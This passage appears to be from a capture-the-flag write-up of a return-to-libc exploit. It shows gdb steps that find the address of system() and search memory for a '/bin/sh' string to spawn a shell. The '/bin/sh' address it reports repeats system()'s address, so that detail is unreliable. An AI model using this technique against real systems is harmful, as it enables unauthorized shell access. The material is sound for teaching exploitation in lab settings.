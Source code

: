 We can set a breakpoint anywhere in the main function, but before the return statement. for exemple, we will set a breakpoint at the beginning :
`b *0x080483f4` . And now you run the program.

Now, we try to `disass system` and we get a result.

```assembly
(gdb) disass system
Dump of assembler code for function system:
   0xb7e6b060 <+0>:	sub    $0x1c,%esp
   0xb7e6b063 <+3>:	mov    %esi,0x14(%esp)
   0xb7e6b067 <+7>:	mov    0x20(%esp),%esi
   0xb7e6b06b <+11>:	mov    %ebx,0x10(%esp)
   0xb7e6b06f <+15>:	call   0xb7f56c73
   0xb7e6b074 <+20>:	add    $0x165f80,%ebx
   0xb7e6b07a <+26>:	mov    %edi,0x18(%esp)
   0xb7e6b07e <+30>:	test   %esi,%esi
   0xb7e6b080 <+32>:	je     0xb7e6b0a8 <system+72>
   0xb7e6b082 <+34>:	mov    %gs:0xc,%eax
   0xb7e6b088 <+40>:	test   %eax,%eax
   0xb7e6b08a <+42>:	jne    0xb7e6b0cc <system+108>
   0xb7e6b08c <+44>:	mov    %esi,%eax
   0xb7e6b08e <+46>:	mov    0x10(%esp),%ebx
   0xb7e6b092 <+50>:	mov    0x14(%esp),%esi
   0xb7e6b096 <+54>:	mov    0x18(%esp),%edi
   0xb7e6b09a <+58>:	add    $0x1c,%esp
   0xb7e6b09d <+61>:	jmp    0xb7e6aaa0
   0xb7e6b0a2 <+66>:	lea    0x0(%esi),%esi
   0xb7e6b0a8 <+72>:	lea    -0x44394(%ebx),%eax
   0xb7e6b0ae <+78>:	call   0xb7e6aaa0
   0xb7e6b0b3 <+83>:	xor    %edx,%edx
   0xb7e6b0b5 <+85>:	test   %eax,%eax
   0xb7e6b0b7 <+87>:	sete   %dl
   0xb7e6b0ba <+90>:	mov    %edx,%eax
   0xb7e6b0bc <+92>:	mov    0x10(%esp),%ebx
   0xb7e6b0c0 <+96>:	mov    0x14(%esp),%esi
   0xb7e6b0c4 <+100>:	mov    0x18(%esp),%edi
   0xb7e6b0c8 <+104>:	add    $0x1c,%esp
   0xb7e6b0cb <+107>:	ret    
   0xb7e6b0cc <+108>:	call   0xb7f28840
   0xb7e6b0d1 <+113>:	mov    %eax,%edi
   0xb7e6b0d3 <+115>:	mov    %esi,%eax
   0xb7e6b0d5 <+117>:	call   0xb7e6aaa0
   0xb7e6b0da <+122>:	mov    %eax,%edx
   0xb7e6b0dc <+124>:	mov    %edi,%eax
   0xb7e6b0de <+126>:	mov    %edx,0xc(%esp)
   0xb7e6b0e2 <+130>:	call   0xb7f288a0
   0xb7e6b0e7 <+135>:	mov    0xc(%esp),%edx
   0xb7e6b0eb <+139>:	jmp    0xb7e6b0ba <system+90>
End of assembler dump.
```

So we keep in mind the address `0xb7e6b060`. It will be this one that we will want to put in our stack, with the address of `/bin/sh` as an argument.
`disass /bin/sh` won't give us a result, so we have to use something else : 
`find &system,+9999999,"/bin/sh"` and we now have our second address : `0xb7e6b060`.
